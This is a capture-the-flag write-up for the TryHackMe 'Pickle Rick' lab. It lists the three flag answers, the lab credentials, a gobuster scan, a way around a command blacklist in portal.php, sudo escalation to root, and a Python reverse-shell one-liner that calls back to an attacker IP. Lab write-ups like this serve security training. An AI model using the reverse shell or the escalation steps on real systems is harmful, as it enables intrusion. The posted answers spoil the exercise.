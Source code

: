 ## TryHackMe | Pickle Rick
https://tryhackme.com/room/picklerick

---

IP: 10.10.37.39
URL: https://10-10-37-39.p.thmlabs.com/

### Questions: 
1. What is the first ingredient Rick needs?\  
Answer: mr. meeseek hair\
Location: http://10.10.37.39/Sup3rS3cretPickl3Ingred.txt or `/var/www/html/Sup3rS3cretPickl3Ingred.txt`

2. Whats the second ingredient Rick needs?  
Answer: 1 jerry tear
Location:` /home/rick/"second ingredients"`

3. Whats the final ingredient Rick needs?
Answer: fleeb juice
Location: `/root/3rd.txt`

---
### Methods

From url:
Username: R1ckRul3s

From robots.txt:
Password: Wubbalubbadubdub


1. Run gobuster scan with extensions lookup (txt,html,css,js,py,php)
> ```bash
> gobuster dir -u http://10.10.246.225 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,css,js,html,txt,py,cgi,sh
> ```

2. Go to the URL as above, respective to given IP.
3. From the gobuster results, go to the `portal.php` page. 
4. Using the username and password received in index.html and robots.txt respectively, login to portal page.
5. Run `ls` command to find the first secret ingredient text file. Use `less` to display the file since cat, more and others are blacklisted. Read the notes below**
> Inspect the `portal.php` for blacklisted command
> 
> Blacklisted command:
> > "cat", "head", "more", "tail", "nano", "vim", "vi"
6. You have found all the info needed to find the second ingredients in `/home/rick`
7. Check `sudo -l` to find what can be run as sudo
8. Use sudo to display the file in /root by running the command in the `portal.php` command field
> ```bash
> sudo less /root/3rd.txt
> ```


**Another method to solve all this is by establishing reverse shell connection thru the `portal.php` command field. **

1. Setup netcat listener at port 9999
2. Run the following python revshell payload into the `portal.php` command field.
Python3 revshell payload:
> ```bash
> python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.26.94",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
> ```
3. In this machine, the user has unlimited sudo privilege. go to root with `sudo bash`

---
### Notes

- Alternatives to cat,more,less
> `grep . <filename>`

- Inspect `portal.php` for restricted commands
- There is a base64 text in `portal.php` that translated to "rabbit hole"
> Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

- Alternatively, run python and netcat to establish reverse shell
